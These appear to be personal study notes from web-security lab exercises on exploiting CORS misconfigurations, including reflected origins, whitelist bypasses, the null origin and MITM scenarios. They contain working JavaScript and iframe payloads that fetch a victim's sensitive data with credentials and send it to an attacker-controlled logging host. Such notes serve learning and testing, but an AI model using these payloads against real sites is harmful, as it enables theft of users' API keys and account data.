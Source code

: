 ## Vulnerabilities
Overview
* Mistakes often made with how CORS is configured which leads to vulnerabilities

Server-Generated ACAO header from client-specified Origin header
* When applications just want to allow access to any website, they mirror the request origin in the response ACAO
* Can be an issue, especially if you have set ACAC to true
   	* Add origin header with random origin to see if it is reflected in the response, then try and exploit.
   	* Make naughty requests and relocate info to your malicious server.
* Naughty JS that uses CORS to retrieve Admin API key and uploads to exploit server:
var req = new XMLHttpRequest();
   req.onload = reqListener;
   req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
   req.withCredentials = true;
   req.send();

   function reqListener() {
       location='//malicious-website.com/log?key='+this.responseText;
   };  
   

Errors parsing Origin headers
* When Whitelist is employed, request host is checked against whitelist
* Mistakes can be made in the whitelist
   	* Some orgs allow access from all their subdomains (including non-existant ones)
   	* Done using regular expressions
* Try variations of an accepted website. E.G> normal-website.com
   	* hackersnormal-website.com
   	* normal-website.com.evil-user.net

Whitelisted null origin value
* Browsers send null value in origin when:
   	* Cross-sit redirects
   	* Requests from serialised data
   	* request using the file: protocol
   	* sandboxed cross-origin requests
* Some apps whitelist “null” origin
* TRY sending the null origin
   	* If you recieve the null ACAO back, it may have whitelisted null values?
   	* Then you use some scripting on exploit server to access API keys etc.
   	* contain null value in an iFrame to be sneaky (since iFrame origin is null)
      		* Put script inside of first iFrame bracket (script from above)
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script></script>"></iframe>     

<iframe sandbow="allow-scripts allow-top-navigation allow-forms" src="data:text/html,
<script>
var req = new XMLHttpRequest();
   req.onload = reqListener;
   req.open('get','https://acb91f5b1eb139e0801918c6005b00c0.web-security-academy.net/accountDetails',true);
   req.withCredentials = true;
   req.send();

   function reqListener() {
       location='https://ac0d1fe01ecb39a1801118e701aa00a3.web-security-academy.net/log?key='+encodeURIComponent(this.responseText);
   };  
</script>"
>
</iframe>

Exploiting XSS via CORS trust relationship
* Trust relationship developed between 2 origins
* if website trusts vulnerable website, can be dangerous for the safe websote
* Inject JS that uses CORS to steal info.

Breaking TLS with poorly configured CORS
* If HTTPS site trusts (whitelists) HTTP website, HTTP site can make a request for sensitive info
* Attack in position to intercept victim user's traffic can exploit CORS configuration to steal info
* STEPS (MITM):
   	* Victim HTTP request
   	* Attack injects redirection to http://trusted-subdomain.vulnerable-website.com
   	* victims browser follows redirect
   	* attacker intercepts http request, returns spoofed response w/ CORS request
   	* victim browser makes CORS request with new origin
   	* app allows request
Better Steps
* Play around with site and look for relationships between different sites
* Look for ACAC and ACAO
* If HTTPS request HTTP, make not of HTTP.
* Find a place where you want to gather details, intercept request
* Try variations of subdomain + attack or attack + subdomain to work out how the cors is configured (which URLS are whitelisted (regex)) and make this the origin.
* Find vulnerability in another area where you can inject (XSS?)
* Use JS on exploit server to exploit vuln (make sure to include doc.location with your naughty URL you used earlier
   	* Should take the form of: <script document.location="URL.com/<script>...</script>"</script>
   	* If it doesn't work, look at HTML encoding

Intranets and CORS without credentials
* CORS attacks often rely on ACAC True
   	* Allows the sending of cookies
* Often case you can't access intranet without credentials (IP blocking)
* BUT, internal websites often have lower security standards
* What if an authenticated user accesses external website THEN an internal one?
   	* Could MITM this and get credentials to access internet.

